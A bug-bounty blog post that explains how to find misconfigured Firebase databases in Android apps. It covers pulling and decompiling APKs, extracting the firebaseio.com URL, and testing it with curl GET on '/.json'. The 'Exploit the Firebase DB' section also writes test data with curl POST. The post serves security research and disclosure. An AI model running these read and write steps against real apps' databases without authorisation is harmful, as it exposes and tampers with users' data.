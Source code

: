 
# How I Found 2 Insecure Firebase Databases

![Open Lightbox](../assets/firebase1.jpg){ .glightbox .center width="600" }

A few weeks back, I was doing some bounty hunting on Android apps when I came across **two mobile applications** vulnerable to **Firebase enumeration**.

## What is Firebase?

**Firebase** is a backend development platform by Google. Due to **insecure configurations**, it’s sometimes possible to **enumerate resources without proper authorization** and access unsafe data.

These misconfigurations are commonly found in Android apps. Although the chances of finding one might seem low, once you start actively looking, there's a decent chance you'll spot one.

---

💡 Even though I didn’t receive a bounty for this vulnerability (despite [HackerOne reports](#) rating similar issues as **severity 9–10**), both companies I reported to were major Indian brands listed on bug bounty platforms—and still didn’t even offer a **Hall of Fame** mention.  

I felt… betrayed 😅    

![Open Lightbox](../assets/1_9irSLF5ztrsUTGHbhTSJow.gif){ .glightbox .center width="500" }

---

## Why This Blog?

I wanted to write this post because **it was surprisingly easy to find**. Once you automate most of the process, spotting an insecure Firebase instance becomes **a piece of cake**—especially if you're checking 20–30 apps.

!!! note ""
    Choose any Android app that is listed in any bug bounty platform 
    or is open For a vulnerability discloser program and then you can
    go ahead and Perform the following steps

---

## The Process

### 1. Choose a Target App

Pick any Android app that is:

- Listed on a **bug bounty platform**, or
- Open for a **vulnerability disclosure program**

---

### 2. Get the APK File

You’ll need the APK file. You can use:

- **Genymotion Emulator**: [https://www.genymotion.com/](https://www.genymotion.com/)
- **APKPure**: [https://apkpure.net](https://apkpure.net) *(Note: APKs may be outdated)*

If you're using an emulator like Genymotion:

1. Set up the emulator.
2. Install the target APK.
3. Proceed to pull the APK file.

---

### 3. Pull the APK Using ADB

> Tool: [Android Debug Bridge (ADB)](https://developer.android.com/tools/adb)

Run the following command:

```bash
adb shell pm list packages -f | grep <APK name>
```

You’ll get the APK's full path (ignore `package:` prefix).  


![Open Lightbox](../assets/adb_shell.webp){ .glightbox .center width="700" }


Now pull the APK:

```bash
adb pull <path_to_the_APK_file_till_base.apk>
```

✅ You now have the APK file.

---

### 4. Decompile the APK

Use [**Apktool**](https://ibotpeaches.github.io/Apktool/) to decompile:

```bash
apktool d base.apk
```

A new folder will be created with all the APK contents. Look inside the `/res` directory.

---

### 5. Find the Firebase URL

Search inside `strings.xml`:

```bash
cat res/values/strings.xml | grep firebase
```

You should see a Firebase URL that looks like:

```text 
https://<project-id>.firebaseio.com
```

![Open Lightbox](../assets/firebase_link.webp){ .glightbox .center width="700" }

---

### 6. Check for Vulnerability

Append `/.json` to the Firebase URL:

```bash
curl -X GET https://somefirebase-database.firebaseio.com/.json
```

- If it returns **data or `null`**, it’s vulnerable ✅
- If it returns **“Permission denied”**, it’s safe ❌


![Open Lightbox](../assets/permission_denied.webp){ .glightbox .center width="700" }


---

### 7. Exploit the Firebase DB

Let’s try adding data via a POST request:

```bash 
curl -X POST https://somefirebase-database.firebaseio.com/testing1.json \
-d '{"cat": "meow", "dog": "bowbow"}'
```

Now visit:

```text linenums="1"
https://somefirebase-database.firebaseio.com/testing1.json
```

You should see something like:

```json linenums="1"
{
  "cat": "meow",
  "dog": "bowbow"
}
```

![Open Lightbox](../assets/result_firebase.webp){ .glightbox .center width="700" }



![Open Lightbox](../assets/heheboy_firebase.gif){ .glightbox .center width="550" }

                                    Thank me later 😆

---

## Final Thoughts

I hope this post helped you understand how to find **Insecure Firebase Enums**.

If you’re interested, check out more articles/blogs related to Firebase misconfigurations and Android app security.

Happy Hunting! 🎯

[GCP - Firebase Enum](https://cloud.hacktricks.wiki/en/pentesting-cloud/gcp-security/gcp-services/gcp-firebase-enum.html)


[Firebase Database Takover](https://danangtriatmaja.medium.com/firebase-database-takover-b7929bbb62e1)

[Exploiting Insecure Firebase Database!](https://blog.securitybreached.org/2020/02/04/exploiting-insecure-firebase-database-bugbounty/?source=post_page-----42b79e9b76f8---------------------------------------)


[X (Formerly Twitter) disclosed on HackerOne: Periscope-all Firebase](https://hackerone.com/reports/684099?source=post_page-----42b79e9b76f8---------------------------------------)

---